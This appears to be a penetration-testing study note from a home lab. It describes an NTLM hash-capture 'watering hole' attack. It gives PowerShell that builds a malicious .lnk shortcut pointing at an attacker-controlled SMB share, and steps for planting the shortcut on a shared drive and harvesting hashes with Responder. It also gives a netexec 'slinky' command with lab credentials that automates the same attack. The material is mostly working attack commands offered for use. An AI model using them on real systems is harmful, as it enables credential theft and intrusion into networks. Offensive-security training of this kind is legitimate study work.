 Watering hole attack
We make a file that executes a powershell script that tries to resolve, but throws a hash your way instead

```$objShell = New-Object -ComObject WScript.shell $lnk = $objShell.CreateShortcut("C:\test.lnk") $lnk.TargetPath = "\\192.168.138.149\@test.png" $lnk.WindowStyle = 1 $lnk.IconLocation = "%windir%\system32\shell32.dll, 3" $lnk.Description = "Test" $lnk.HotKey = "Ctrl+Alt+T" $lnk.Save()```

- Put that into your PS, save the file
- Change the name of the file so that it's loaded first when navigating to a file system
- Once it's in a place that everyone goes to (watering hole), open up [[Responder]]
- Watch the hashes come in

Also a module in [[crackmapexec]] called "slinky"
`netexec smb 192.168.138.137 -d marvel.local -u fcastle -p Password1 -M slinky -o NAME=test SERVER=192.168.138.149`